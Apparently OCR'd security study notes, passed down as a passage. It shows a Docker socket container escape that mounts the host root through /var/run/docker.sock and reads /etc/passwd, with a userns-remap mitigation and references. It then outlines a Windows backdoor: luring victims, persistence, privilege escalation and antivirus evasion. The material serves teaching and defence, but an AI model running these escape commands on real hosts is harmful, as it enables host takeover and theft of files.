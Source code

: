 Inside the sock container, set up a new container and mount the host's root path / directly into the /test directory of the new container. Then, open a new shell inside the new container.

```bash
docker -H unix:///var/run/docker.sock run -it -v /:/test:ro -t alpine sh
```

The test folder will now appear, containing the root path of the host. At this point, an attacker can access all files and confidential information on the host through the new container.

```bash
cd /test && cat /etc/passwd
```

```bash
dockerd --userns-remap="evil:evil" # This limits the capabilities of evil user
```

## Reference

1. [https://www.netsparker.com/blog/web-security/privilege-escalation/](https://www.netsparker.com/blog/web-security/privilege-escalation/)
2. [https://docs.docker.com/engine/security/userns-remap/](https://docs.docker.com/engine/security/userns-remap/)
3. [https://www.youtube.com/watch?v=MnUtHSpcdLQ](https://www.youtube.com/watch?v=MnUtHSpcdLQ)
4. [https://flast101.github.io/docker-privesc/](https://flast101.github.io/docker-privesc/)
5. [https://operatingsystemsatntu.github.io/OS-21-Spring-at-NTU/mp0.html](https://operatingsystemsatntu.github.io/OS-21-Spring-at-NTU/mp0.html)
6. [https://javascript.plainenglish.io/top-reasons-why-docker-is-popular-31cc6056e82a](https://javascript.plainenglish.io/top-reasons-why-docker-is-popular-31cc6056e82a)
7. [https://www.datadoghq.com/container-report/](https://www.datadoghq.com/container-report/)
8. 

# Windows Backdoor

This is actually a very classic type of malware. Its ultimate goal is to execute on the client side and obtain the desired results, while being able to obtain this information on the server side.

The process is roughly as follows:

1. Set up a server to listen for incoming connections on a specific port.
2. Lure the victim into running a backdoor program.
3. The backdoor establishes a connection between the client and server.
4. The server transmits commands to the client.
5. The client executes the commands that we want.
6. The results are obtained on the server side.


To successfully deploy a backdoor, the following four basic concepts are necessary:

- Phishing: luring the user to execute our backdoor, such as disguising it as other trusted programs or providing attractive content.
- Persistence: how to maintain the backdoor running normally on the client side for a long time.
- Privilege escalation: actively attempting to gain administrator privileges on Windows or persuading the victim to grant them.
- Evasion: making the victim unaware of the existence of the backdoor and attempting to evade antivirus software or firewalls.
